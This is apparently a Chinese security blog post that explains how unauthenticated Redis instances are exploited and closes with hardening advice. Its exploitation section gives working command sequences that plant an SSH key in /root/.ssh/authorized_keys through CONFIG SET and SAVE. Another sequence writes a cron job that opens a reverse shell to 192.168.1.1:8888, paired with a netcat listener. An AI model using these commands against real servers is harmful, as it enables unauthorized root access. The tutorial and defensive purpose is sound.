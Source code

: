 ```yaml
---
title: redis 未授权漏洞简介
date: 2018-07-25 00:00:00
tags:
- redis
---
```


> 本文仅供学习交流使用，切勿用于非法用途
+ <!--more-->

## redis 概述

Redis 是一个开源（BSD许可）的，内存中的数据结构存储系统，它可以用作数据库、缓存和消息中间件。

redis 协议使用符号前缀标识数据类型
> In RESP, the type of some data depends on the first byte:
> - For Simple Strings the first byte of the reply is "> +"
> - For Errors the first byte of the reply is "-"
> - For Integers the first byte of the reply is ":"
> - For Bulk Strings the first byte of the reply is "$"
> - For Arrays the first byte of the reply is "*"

## 常用命令

- `GET key`获取 key 值
- `SET key value [expiration EX seconds|PX milliseconds] [NX|XX]` 将键key设定为指定的字符串值，覆盖旧值和过期时间
    - EX seconds – 设置键key的过期时间/秒
    - PX milliseconds – 设置键key的过期时间/毫秒
    - NX – 只有键key不存在的时候才会设置key的值
    - XX – 只有键key存在的时候才会设置key的值
- `DEL key [key ...]`删除指定key的值，返回删除的key的数量
- `KEYS pattern`查找所有符合给定模式pattern（正则表达式）的key
- `INFO`返回关于Redis服务器的各种信息和统计数值
- `CONFIG GET parameter`读取redis服务器的配置文件参数
- `CONFIG SET parameter`设置redis服务器的配置文件参数
- `SAVE`将数据保存到磁盘
- `FLUSHDB`删除当前数据库里面的所有数据
- `AUTH password`密码认证

## 未授权利用

- 利用前提：目标机器redis端口暴露，未设置密码（或仅设置弱密码）且redis运行在高权限用户
- 利用原理：redis 提供的 config 命令可以修改数据文件的位置，通过将自己的公钥写入redis，然后修改数据文件保存位置，覆盖`~/.ssh/authorized_keys`可以获得服务器访问权限
- 利用过程
```bash
# 连接 redis 默认端口
nc 192.168.1.1 6379

# 尝试查看 redis 信息 提示未认证
info
-NOAUTH Authentication required.

# 认证
auth ${PASSWORD}
+OK

# 查看当前目录
config get dir
*2
$3
dir
$19
/var/lib/redis/6379

# 查看数据文件名
config get dbfilename
*2
$10
dbfilename
$8
dump.rdb

# 设置 x 的值为公钥
set x "\n\n\nssh-rsa AAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n\n\n"
+OK

# 修改目录为 /root/.ssh
config set dir /root/.ssh/
+OK

# 修改数据文件为 authorized_keys
config set dbfilename authorized_keys
+OK

# 保存数据
save
+OK

# 删除 x 的值
del x
:1

# 关闭连接
quit
+OK
```

在 crontab 里写入反弹 shell 同样能够获取目标机器权限
```bash
# 在 crontab 里写入反弹 shell
set x "\n\n\n* * * * * bash -i >& /dev/tcp/192.168.1.1/8888 0>&1\n\n\n"
config set dir /var/spool/cron/
config set dbfilename root
save
```

之后在本机监听端口即可
```
# 本地监听
nc -lvnp 8888

# 查看crontab任务
crontab -l
```

## 防护方式

- 使用强密码`requirepass XXXXXXXXX`
- 关闭外网访问`bind 127.0.0.1`
- 修改默认的端口，一定程度上避免被扫描
- 使用低权限用户启动 redis
- 在 redis.conf 禁用高危命令
```
rename-command FLUSHALL ""
rename-command FLUSHDB ""
rename-command CONFIG ""
rename-command EVAL ""
```

## 参考文献

- [redis](https://redis.io)
- [Redis 未授权访问配合 SSH key 文件利用分析](http://blog.knownsec.com/2015/11/analysis-of-redis-unauthorized-of-expolit/)
